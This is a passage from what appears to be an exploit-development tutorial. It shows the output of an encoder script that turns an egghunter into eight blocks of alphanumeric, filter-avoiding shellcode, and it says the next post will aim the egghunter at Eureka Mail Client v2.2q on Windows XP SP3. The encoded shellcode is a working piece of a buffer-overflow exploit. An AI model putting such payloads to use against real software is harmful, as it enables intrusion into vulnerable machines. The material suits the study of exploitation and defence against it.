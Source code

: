 ```
# ./encoder-test.py -b "\x21\x44\x5f" -e 3 -t m0m0
******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5d\x55\x5d
\x2d\x2e\x5d\x55\x5d
\x2d\x2f\x5e\x55\x5d
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5c\x6f
\x2d\x70\x2e\x5c\x70
\x2d\x71\x2e\x5d\x70
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x31\x45\x26\x57
\x2d\x31\x45\x27\x57
\x2d\x31\x45\x27\x57
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5b\x6c\x30\x45
\x2d\x5b\x6d\x30\x45
\x2d\x5b\x6d\x31\x45
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x41\x53\x37\x2e
\x2d\x41\x53\x37\x2e
\x2d\x42\x54\x37\x2f
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x54\x37\x66\x45
\x2d\x55\x38\x66\x45
\x2d\x55\x38\x66\x46
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x50\x3f\x39\x31
\x2d\x50\x3f\x3a\x32
\x2d\x51\x3f\x3a\x32
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x33\x2a\x67\x55
\x2d\x33\x2a\x67\x55
\x2d\x34\x2a\x67\x55
\x50
```


In the next post, we'll test our encoded egghunter on a Windows XP SP3 box running Eureka Mail Client v2.2q.
